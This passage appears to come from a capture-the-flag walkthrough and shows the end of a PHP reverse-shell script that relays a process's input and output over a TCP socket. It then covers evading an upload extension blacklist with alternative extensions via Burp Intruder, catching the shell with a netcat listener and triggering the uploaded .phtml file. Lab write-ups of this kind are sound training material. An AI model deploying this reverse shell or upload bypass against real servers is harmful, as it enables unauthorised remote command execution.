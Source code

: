 ```php
		fwrite($pipes[0], $input);
	}

	// If we can read from the process's STDOUT
	// send data down tcp connection
	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	// If we can read from the process's STDERR
	// send data down tcp connection
	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

// Like print, but does nothing if we've daemonised ourself
// (I can't figure out how to redirect STDOUT like a proper daemon)
function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}
?> 
```
- Edit the ip address and port according to your tun0 ip and desired port number. Let's save the file as revshell.php and try to upload it in the form. 
- Unfortunately I got `extension not allowed` error. So there must be a black list of extensions that are not allowed to upload and `.php` is one of them.
- We have plenty of other possible extensions for php files that can help us bypass the blacklist. 
    - .php
    - .php3
    - .php4
    - .php5
    - .phtml
- this time let's capture the request using burp and send the reverse shell using above extensions one by one using intruder.
- After the attact, our reverse shell was succesfully uploaded with extension .phtml. Now let's run our netcat listener `nc -lnvp 1234` and then try to access and execute the reverse shell.
- going to /internal/uploads/revshell.phtml executes our reverse shell and we get a shell on our netcat listener.